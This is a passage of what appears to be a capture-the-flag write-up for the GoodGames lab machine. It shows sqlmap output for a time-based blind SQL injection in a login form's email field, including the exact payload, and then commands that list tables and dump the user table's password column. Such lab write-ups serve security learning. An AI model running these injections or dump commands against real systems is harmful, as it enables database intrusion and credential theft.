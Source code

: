 ```
[*] starting @ 18:28:59 /2024-11-07/

[18:28:59] [INFO] parsing HTTP request from 'req.req'
[18:28:59] [INFO] resuming back-end DBMS 'mysql' 
[18:28:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 3440 FROM (SELECT(SLEEP(5)))VGFl) AND 'YHIv'='YHIv&password=PASS
---
[18:29:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[18:29:00] [INFO] fetching database names
[18:29:00] [INFO] fetching number of databases
[18:29:00] [INFO] resumed: 2
[18:29:00] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                    
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[18:29:18] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[18:29:30] [INFO] adjusting time delay to 3 seconds due to good response times
information_schema
[18:33:22] [INFO] retrieved: ma
[18:34:03] [ERROR] invalid character detected. retrying..
[18:34:03] [WARNING] increasing time delay to 4 seconds
in
available databases [2]:
[*] information_schema
[*] main

[18:34:34] [INFO] fetched data logged to text files under '/home/lotape6/.sqlmap/output/goodgames.htb'
[18:34:34] [WARNING] you haven't updated sqlmap for more than 1679 days!!!

[*] ending @ 18:34:34 /2024-11-07/

```
Inspectin tables:
```
$ sqlmap -r req.req -D main --tables

Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```
Inspecting columns:
```
$ sqlmap -r req.req -D main --columns
$ sqlmap -r req.req -D main -T user -C password --dump

.
.
.


```